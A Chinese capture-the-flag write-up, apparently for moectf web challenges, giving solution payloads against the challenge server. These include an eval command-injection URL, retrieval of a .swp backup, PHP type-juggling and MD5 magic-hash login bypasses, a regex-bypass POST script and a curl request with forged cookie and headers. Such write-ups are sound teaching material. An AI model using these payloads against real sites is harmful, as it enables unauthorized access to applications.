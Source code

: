 这道题要用到`WireShark`...然后点开WireShark, 打开端口然后刷新页面, 然后在捕获的列表里面找一个HTTP 302, 然后双击查看详细信息, 就能找到`flag`了.

### 英国人

这道题很秀…. 用`nslookuptool`的在线查询网站可以查到`region.challenge.moectf.cn`的全球`dns`信息, 然后找到了域名在英国被解析的地址, 然后修改一下`hosts`, 唱跳rap篮球+F5, 就拿到`flag`了.

### Amazing_Eval

了解了一下`eval()`函数..

然后打开`http://39.108.11.206:10006/?cmd=‘echo “$flag”’`就好了.

### 今天你备份了嘛

这道题上网必应了一下, 然后打开`http://39.108.11.206:10011/index.php.swp`, 就拿到`flag`了.

### PHP 弱类型

我真的想吐槽PHP不愧是被骂成全世界最懒烂的语言...

`http://39.108.11.206:10005/?a="0”`

php判断相等时, 字符串会被解释成0. 打开上面网址拿到`flag`.

### PHP_md5()

哇塞php是真的不安全...必应了一下php的MD5漏洞, 然后打开`http://39.108.11.206:10007/?username=240610708&passwd=QNKCDZO`, 就拿到了`flag`: `moectf{You_UnderStAnd_mD5_betTer!}`

这是因为`240610708`和`QNKCDZO`的MD5()计算结果竟然是一样的!

### 神奇的正则表达式

小小学了下正则表达式, 然后改了一下之前post用的脚本:

```python
import requests
datas = {'key':"aflagdddd/6/:skey"}
r = requests.post("http://39.108.11.206:10009/", data=datas)
print(r.text)
print(r.status_code)
```

成功通过.

### 头

这题真的狠...算了要文明...

用`curl`连试了好几次终于过了:

```text
$ curl --header "Cookie: login=true" --header "User-Agent: PowerPC" --header "Accept: application/flag" -v -i http://47.101.32.101:10010/
```

